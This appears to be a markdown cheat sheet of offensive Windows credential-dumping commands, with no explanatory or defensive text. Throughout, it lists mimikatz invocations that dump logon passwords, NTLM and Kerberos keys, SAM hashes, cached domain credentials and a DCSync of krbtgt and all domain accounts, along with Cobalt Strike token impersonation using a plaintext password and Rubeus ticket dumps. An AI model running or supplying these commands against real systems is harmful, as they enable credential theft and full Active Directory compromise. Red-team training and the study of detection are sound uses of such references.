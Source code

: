 ### Cobalt Strike
```
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !lsadump::sam
mimikatz !lsadump::cache

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```
### Domain Cached Credentials
```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```
